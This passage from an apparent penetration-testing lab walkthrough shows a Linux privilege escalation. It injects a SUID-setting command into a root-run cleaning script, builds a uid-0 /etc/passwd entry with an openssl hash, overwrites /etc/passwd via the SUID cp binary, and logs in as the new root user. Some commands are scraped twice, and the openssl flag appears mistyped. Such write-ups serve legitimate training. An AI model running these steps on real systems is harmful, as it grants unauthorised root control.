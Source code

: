 ![](https://i2.wp.com/4.bp.blogspot.com/-TnniS4eTvaM/W11Jv0GHhAI/AAAAAAAAYtk/cDr8sQvSfTkzVn7GBk-mC6lkc_uxndR0wCLcBGAs/s1600/14.png?w=687&ssl=1)  

### **Method 2:**

For this method, we achieve the meterpreter session as above and then get a shell.  
We used echo command this time to set the sticky bit on **/usr/bin/cp**  

echo "chmod u+s /usr/bin/cp" > CleaningScript.sh

1

echo  "chmod u+s /usr/bin/cp"  \>  CleaningScript.sh

![](https://i2.wp.com/3.bp.blogspot.com/-d8BBPUydaj4/W11JwW6xqeI/AAAAAAAAYto/4iCH6j-zojYlxQPlCdl6J7-BxQamGeuSQCLcBGAs/s1600/25.png?w=687&ssl=1)  
We read the /etc/passwd file using cat utility after that.  
![](https://i0.wp.com/1.bp.blogspot.com/-Hh2PWlkoo0s/W11Jw-KFm1I/AAAAAAAAYtw/wlDtn6LyjG8S6bhOIGOtg4hq0YaBNI7RgCLcBGAs/s1600/26.png?w=687&ssl=1)  
Our aim was to add a user in /etc/passwd file as root. So, we use OpenSSL utility to create a password hash with the command:  

openssl passwd -l -salt user3 pass123

1

openssl passwd  \-l  \-salt user3 pass123

Copy the password hash in someplace safe now.  
![](https://i2.wp.com/1.bp.blogspot.com/-lxD5UfBdrpE/W11JxSXjecI/AAAAAAAAYt0/pmr01Qhyu3ECiLC3DfdalARzEejqqJmnQCLcBGAs/s1600/27.png?w=687&ssl=1)  
Copy the /etc/passwd file in a leafpad file and let’s add our custom user in there.  

raj:$1$user3$<hash>:0:0:root:/root:/bin/bash

1

raj:$1$user3$<hash\>:0:0:root:/root:/bin/bash

![](https://i1.wp.com/4.bp.blogspot.com/-Z89YcbxkFUE/W11Jyoy5XRI/AAAAAAAAYt8/4sT3jP9vucEi0HXQVR3WUaPV06hbtlPTwCLcBGAs/s1600/28.png?w=687&ssl=1)  
Save this file somewhere on the desktop and download this file on server’s /tmp (universal writeable) directory.  
Then use cp (since we set sticky bit) to copy and replace this file with the original file with the command:  

cp passwd /etc/passwd

1

cp passwd  /etc/passwd

Let’s try and login using su binary:  

su raj \[password\]: pass123

1

2

su raj

\[password\]:  pass123
